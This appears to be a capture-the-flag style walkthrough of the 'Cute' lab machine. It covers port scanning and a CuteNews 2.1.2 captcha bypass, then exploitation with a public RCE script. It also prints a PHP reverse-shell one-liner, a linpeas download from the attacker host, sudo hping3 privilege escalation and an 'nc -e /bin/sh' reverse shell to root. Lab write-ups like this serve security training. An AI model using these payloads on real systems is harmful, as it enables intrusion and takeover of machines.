









# Cute
## Information Collect
### NMAP
#### Full Ports Scanning
```
└─$ sudo nmap -p- 192.168.146.75                             
[sudo] password for aaron: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-25 11:42 HKT
Nmap scan report for 192.168.146.75
Host is up (0.00020s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
88/tcp  open  kerberos-sec
110/tcp open  pop3
995/tcp open  pop3s
MAC Address: 00:0C:29:1B:B0:20 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds

```
#### Specify Scanning
```
└─$ sudo nmap -p22,80,88,110,995 -sV -A 192.168.146.75
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-25 11:42 HKT
Nmap scan report for 192.168.146.75
Host is up (0.00042s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) UTF8(USER) PIPELINING UIDL USER TOP LOGIN-DELAY(10) STLS
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) PIPELINING UTF8(USER) USER TOP LOGIN-DELAY(10) UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_ssl-date: TLS randomness does not represent time
MAC Address: 00:0C:29:1B:B0:20 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.42 ms 192.168.146.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.22 seconds
```
### Web Application Information Collect
#### Nikto
```
└─$ nikto -h 192.168.146.75      
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.146.75
+ Target Hostname:    192.168.146.75
+ Target Port:        80
+ Start Time:         2022-07-25 11:44:49 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie CUTENEWS_SESSION created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Multiple index files found: /index.php, /index.html
+ Server may leak inodes via ETags, header found with file /, inode: 29cd, size: 5af83f7e950ce, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3092: /LICENSE.txt: License file found may identify site software.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7916 requests: 0 error(s) and 11 item(s) reported on remote host
+ End Time:           2022-07-25 11:45:40 (GMT8) (51 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
##### Find index.php

##### We can register a users
##### Enter Register User Interface

##### But verification code can't load
##### Check source code for this page

##### Find captcha.php

##### Jump to captcha.php and we can got the verification code
##### Successful Login to System

##### Found the CuteNews version at 2.1.2

##### Search at google and found the RCE Vulnerability 
## Vulnerability Exploit
```
└─$ searchsploit cutenews 2.1.2
---------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                          |  Path
---------------------------------------------------------------------------------------- ---------------------------------
CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploit)                            | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion                                                | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload                                    | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution                                                  | php/webapps/48800.py
---------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
##### We can found the exploit at expolitdb, use searchsploit download that
```
└─$ searchsploit -m php/webapps/48800.py
  Exploit: CuteNews 2.1.2 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48800
     Path: /usr/share/exploitdb/exploits/php/webapps/48800.py
File Type: Python script, ASCII text executable

Copied to: /home/aaron/Desktop/Cute-192.168.146.75/48800.py


                                                                                                                          
┌──(aaron㉿aacai)-[~/Desktop/Cute-192.168.146.75]
└─$ ls
48800.py  LANs.py
└─$ python3 48800.py


           _____     __      _  __                     ___   ___  ___
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/
                                ___  _________
                               / _ \/ ___/ __/
                              / , _/ /__/ _/
                             /_/|_|\___/___/


[->] Usage python3 expoit.py

Enter the URL> http://192.168.146.75/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
[-] No hashes were found skipping!!!
================================================================

=============================
Registering a users
=============================
                                                                                                                          
┌──(aaron㉿aacai)-[~/Desktop/Cute-192.168.146.75]
└─$ 

```
##### But we can't execution this python file in this moment, view the python code

##### We didn't see the CuteNews Path when we visit website or jump to any other path, so remove that and try again

##### It's working
```
command > whoami
www-data

command > ls
avatar_55Y2xTic4I_55Y2xTic4I.php
avatar_ET3TpbEJQk_ET3TpbEJQk.php
avatar_IgJLU8OSMX_IgJLU8OSMX.php
avatar_PoKxESSE4D_PoKxESSE4D.php
avatar_RvFcklLkzE_RvFcklLkzE.php
avatar_VvgU5CZIce_VvgU5CZIce.php
avatar_cruDW9A0zh_cruDW9A0zh.php
avatar_rwRemM6TLd_message2.jpg
index.html
```
##### Process Reverse Shell
```
php -r '$sock=fsockopen("192.168.146.50",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```


##### Get the common shell 
## Privilege Escalation 
#### Download linpeas from local and execPrivilege Escalationute
```
www-data@cute:/tmp$ wget http://192.168.146.50/linpeas.sh
wget http://192.168.146.50/linpeas.sh
--2022-07-23 14:30:48--  http://192.168.146.50/linpeas.sh
Connecting to 192.168.146.50:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 777005 (759K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 758.79K  --.-KB/s    in 0.02s   

2022-07-23 14:30:48 (43.2 MB/s) - 'linpeas.sh' saved [777005/777005]

```
##### Got the useful information from linpeas
```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp
    (ALL) NOPASSWD: ALL

```
##### As you can see, we can use hping3 without password when we use sudo
```
www-data@cute:/tmp$ sudo /usr/sbin/hping3   
sudo /usr/sbin/hping3
hping3> id
id
uid=0(root) gid=0(root) groups=0(root)
hping3> whoami
whoami
root
hping3> pwd
pwd
/tmp
hping3> 
```
##### use netcat to reverse shell for local
```
hping3> nc -e /bin/sh 192.168.146.50 4445
nc -e /bin/sh 192.168.146.50 4445
```
##### Finally get root shell
```
┌──(aaron㉿aacai)-[~/Desktop/Cute-192.168.146.75]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [192.168.146.50] from (UNKNOWN) [192.168.146.75] 57576
id
uid=0(root) gid=0(root) groups=0(root)
/usr/bin/script -qc /bin/bash /dev/null
root@cute:/tmp# cd /root
cd /root
root@cute:~# ls
ls
localweb  root.txt
root@cute:~# cat root.txtg
cat root.txtg
cat: root.txtg: No such file or directory
root@cute:~# cat root.txt
cat root.txt
0b18032c2d06d9e738ede9bc24795ff2
root@cute:~# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:1b:b0:20 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.75/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 70362sec preferred_lft 70362sec
    inet6 fe80::20c:29ff:fe1b:b020/64 scope link 
       valid_lft forever preferred_lft forever
root@cute:~# whoami
whoami
root
root@cute:~# 
```



